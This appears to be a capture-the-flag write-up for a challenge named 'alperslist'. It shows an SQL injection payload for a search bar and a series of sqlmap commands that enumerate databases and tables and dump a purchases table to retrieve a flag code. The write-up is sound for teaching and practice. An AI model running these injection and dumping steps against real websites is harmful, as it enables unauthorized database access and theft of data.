




# alperslist Solution

In this challenge, main objective is to access to flag file in the website.

There is an SQL injection vulnerability in the search bar in the home. It can be demonstrated with 
the prompt `' or '1' = '1`. Since it makes a hard-search query to the database, effects can be seen 
easily. Once this vulnerability is discovered, contents of the database can be explored via `sqlmap`.

#### 1. Checking SQL injection via `sqlmap`

With the following command, we can make sqlmap to discover what kind of payload is required for exploitation:

`sqlmap -u "https://alperslist.c.sucyber.net/search" --data="search=a"`

#### 2. Exploring databases

Once we find out a way to exploit the SQL injection, we can use the following command to dump table information from the remote:

`sqlmap -u "https://alperslist.c.sucyber.net/search" --data="search=a" -dbs`

And we get the output:

#### 3. Dumping tables

In order to dump tables, first we can use the following command to explore the tables:

`sqlmap -u "https://alperslist.c.sucyber.net/search" --data="search=a" -D alperslist --tables`

And we get the output:

When we dump the table `purchases` we can see the download code for the flag with the following command:

`sqlmap -u "https://alperslist.c.sucyber.net/search" --data="search=a" -D alperslist -T purchases --dump`

And we get the output:

When we use the purchase code to download the file, we get the flag:

